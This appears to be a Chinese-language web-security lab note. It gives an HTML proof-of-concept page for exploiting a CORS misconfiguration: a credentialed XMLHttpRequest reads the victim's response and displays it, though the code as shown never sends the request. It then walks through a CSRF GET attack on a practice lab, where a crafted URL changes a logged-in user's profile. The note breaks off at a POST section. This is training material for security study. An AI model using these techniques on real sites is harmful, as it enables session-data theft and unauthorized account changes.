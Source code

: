****

#### CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  ![image-20240918204652135](./assets/image-20240918204652135.png)

------

#### 实战

> CSRF(get)

![image-20240918183529268](./assets/image-20240918183529268.png)

- 进入登录页面修改信息,然后`抓包拦截`

![image-20240918183713778](./assets/image-20240918183713778.png)

- 直接修改放行http://192.168.100.40:49615/csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- ![image-20240918183918103](./assets/image-20240918183918103.png)

- 可以发现修改`成功`!

------

> CSRF(post)

  ```